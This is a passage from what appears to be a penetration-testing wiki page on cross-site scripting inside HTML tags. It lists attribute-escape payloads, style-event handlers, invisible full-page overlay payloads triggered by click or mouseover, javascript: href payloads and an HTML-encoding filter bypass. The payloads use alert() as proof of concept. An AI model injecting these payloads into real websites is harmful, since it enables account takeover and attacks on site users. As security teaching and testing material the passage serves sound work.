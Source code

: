 ### Impossible - Dangling Markup

If you just think that **it's impossible to create an HTML tag with an attribute to execute JS code**, you should check [**Danglig Markup** ](../dangling-markup-html-scriptless-injection/index.html)because you could **exploit** the vulnerability **without** executing **JS** code.

## Injecting inside HTML tag

### Inside the tag/escaping from attribute value

If you are in **inside a HTML tag**, the first thing you could try is to **escape** from the tag and use some of the techniques mentioned in the [previous section](#injecting-inside-raw-html) to execute JS code.\
If you **cannot escape from the tag**, you could create new attributes inside the tag to try to execute JS code, for example using some payload like (_note that in this example double quotes are use to escape from the attribute, you won't need them if your input is reflected directly inside the tag_):

```bash
" autofocus onfocus=alert(document.domain) x="
" onfocus=alert(1) id=x tabindex=0 style=display:block>#x #Access http://site.com/?#x t
```

**Style events**

```python
<p style="animation: x;" onanimationstart="alert()">XSS</p>
<p style="animation: x;" onanimationend="alert()">XSS</p>

#ayload that injects an invisible overlay that will trigger a payload if anywhere on the page is clicked:
<div style="position:fixed;top:0;right:0;bottom:0;left:0;background: rgba(0, 0, 0, 0.5);z-index: 5000;" onclick="alert(1)"></div>
#moving your mouse anywhere over the page (0-click-ish):
<div style="position:fixed;top:0;right:0;bottom:0;left:0;background: rgba(0, 0, 0, 0.0);z-index: 5000;" onmouseover="alert(1)"></div>
```

### Within the attribute

Even if you **cannot escape from the attribute** (`"` is being encoded or deleted), depending on **which attribute** your value is being reflected in **if you control all the value or just a part** you will be able to abuse it. For **example**, if you control an event like `onclick=` you will be able to make it execute arbitrary code when it's clicked.\
Another interesting **example** is the attribute `href`, where you can use the `javascript:` protocol to execute arbitrary code: **`href="javascript:alert(1)"`**

**Bypass inside event using HTML encoding/URL encode**

The **HTML encoded characters** inside the value of HTML tags attributes are **decoded on runtime**. Therefore something like the following will be valid (the payload is in bold): `<a id="author" href="http://none" onclick="var tracker='http://foo?`**`&apos;-alert(1)-&apos;`**`';">Go Back </a>`

Note that **any kind of HTML encode is valid**:
